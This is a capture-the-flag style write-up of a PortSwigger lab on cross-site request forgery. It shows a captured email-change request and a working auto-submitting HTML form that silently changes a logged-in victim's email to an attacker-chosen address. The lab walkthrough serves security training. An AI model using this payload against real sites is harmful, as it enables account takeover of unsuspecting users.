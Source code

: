 ![CSRF](csrf-vulnerability-with-no-defenses.png)

Portswigger’s Lab write up: CSRF vulnerability with no defenses

In this apprentice-level lab, we will exploit a site that contains a CSRF vulnerability in its email change functionality.

After signing in  and trying to update our account’s email to something like ‘test@gmail.com’, we can see the following request in the Network tab of our browser or Burpsuite Intercept:

```markdown
POST /my-account/change-email HTTP/1.1
Host: [0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net](http://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/)
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: [https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net](https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/)
Connection: keep-alive
Referer: [https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/my-account](https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/my-account)
Cookie: session=bQKVomOrYf95eVTuf4XKAw9zlJQDsUUK
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

With the following body structure:

```markdown
email=test@gmail.com
```

Here we are able to identify that the update email action just requires a session cookie to authorize the user and the email parameter to execute this action. Let’s use the reading material’s HTML template for CSRF to build our attack:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

All we need to do is replace the action attribute of the form component to our lab’s absolute email update endpoint (you can see it on the POST request we performed earlier) and the value attribute of the email input to whatever value we want the victim’s email to change to:

```markdown
<html>
    <body>
        <form action="${LAB_URL}/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="${ATTACKER_EMAIL}" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

If we save this as an HTML file, when someone visits our site, the form above will be submitted as soon as the page loads and an email update will be requested (as long as the user is authenticated on the lab’s site since a session cookie is required to perform the email update action). To solve the lab, we have to go to the exploit server, store our HTML code, and send it to the victim.

Check out this write up on:
Art Of Code: https://artofcode.tech/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses/
Medium: [https://medium.com/@artofcode_/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-a12785f4a14a](https://medium.com/@artofcode_/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-a12785f4a14a)

Dev.to: [https://dev.to/christianpaez/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-4p84](https://dev.to/christianpaez/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-4p84)
